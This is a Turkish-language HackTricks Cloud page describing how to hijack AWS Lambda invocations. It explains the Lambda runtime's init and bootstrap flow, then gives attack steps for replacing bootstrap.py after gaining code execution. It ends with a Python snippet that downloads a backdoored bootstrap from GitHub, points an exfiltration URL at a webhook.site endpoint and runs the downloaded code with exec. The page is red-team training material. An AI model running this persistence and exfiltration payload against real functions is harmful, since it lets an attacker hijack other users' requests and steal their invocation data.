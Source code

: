 # AWS - Lambda İsteklerini Çal

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter**'da **bizi takip edin** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## Lambda Akışı

<figure><img src="../../../../.gitbook/assets/image (341).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer**, **init** sürecine **çağrılar** gönderen konteyner dışındaki bir süreçtir.
2. Init süreci, bazı ilginç uç noktaları açığa çıkaran **9001** portunu dinler:
* **`/2018-06-01/runtime/invocation/next`** – bir sonraki çağrı olayını al
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – çağrı için işleyici yanıtını döndür
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – bir yürütme hatası döndür
3. **bootstrap.py**, init sürecinden çağrıları alan bir döngüye sahiptir ve bunları işlemek için kullanıcı kodunu çağırır (**`/next`**).
4. Son olarak, **bootstrap.py** init'e **yanıt** gönderir.

Bootstrap'ın kullanıcı kodunu bir modül olarak yüklediğini unutmayın, bu nedenle kullanıcı kodu tarafından gerçekleştirilen herhangi bir kod yürütmesi aslında bu süreçte gerçekleşmektedir.

## Lambda İsteklerini Çalmak

Bu saldırının amacı, kullanıcı kodunun, savunmasız isteği işleyen **`bootstrap.py`** süreci içinde kötü niyetli bir **`bootstrap.py`** süreci çalıştırmasını sağlamaktır. Bu şekilde, **kötü niyetli bootstrap** süreci, istekleri işlemek için **init süreciyle** **iletişim kurmaya** başlayacak, böylece **meşru** bootstrap, kötü niyetli olanı çalıştırırken **tuzağa düşmüş** olacak ve init sürecine istek sormayacaktır.

Bu, kullanıcı kodunun meşru **`bootstrap.py`** süreci tarafından yürütüldüğü için basit bir görevdir. Böylece saldırgan:

* **Mevcut çağrının sahte bir sonucunu init sürecine gönderebilir**, böylece init, bootstrap sürecinin daha fazla çağrı beklediğini düşünebilir.
* **`/${invoke-id}/response`** adresine bir istek gönderilmelidir.
* Invoke-id, meşru **`bootstrap.py`** sürecinin yığınından [**inspect**](https://docs.python.org/3/library/inspect.html) python modülünü kullanarak (burada [önerildiği gibi](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch_runtime.py)) veya sadece tekrar **`/2018-06-01/runtime/invocation/next`** adresine istekte bulunarak elde edilebilir (burada [önerildiği gibi](https://github.com/Djkusik/serverless_persistency_poc/blob/master/gcp/exploit_files/switcher.py)).
* Bir sonraki çağrıları yönetecek kötü niyetli **`boostrap.py`**'yi çalıştırın.
* Gizlilik amacıyla, lambda çağrı parametrelerini saldırganın kontrolündeki C2'ye göndermek ve ardından istekleri normal şekilde işlemek mümkündür.
* Bu saldırı için, **`bootstrap.py`**'nin orijinal kodunu sistemden veya [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py) üzerinden almak, kötü niyetli kodu eklemek ve mevcut lambda çağrısından çalıştırmak yeterlidir.

### Saldırı Adımları

1. Bir **RCE** açığı bulun.
2. **Kötü niyetli** bir **bootstrap** oluşturun (örneğin [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py))
3. Kötü niyetli bootstrap'ı **çalıştırın**.

Bu eylemleri kolayca gerçekleştirebilirsiniz:
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
Daha fazla bilgi için [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda_bootstrap_switcher) adresini kontrol edin.

## Referanslar

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter**'da **bizi takip edin** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

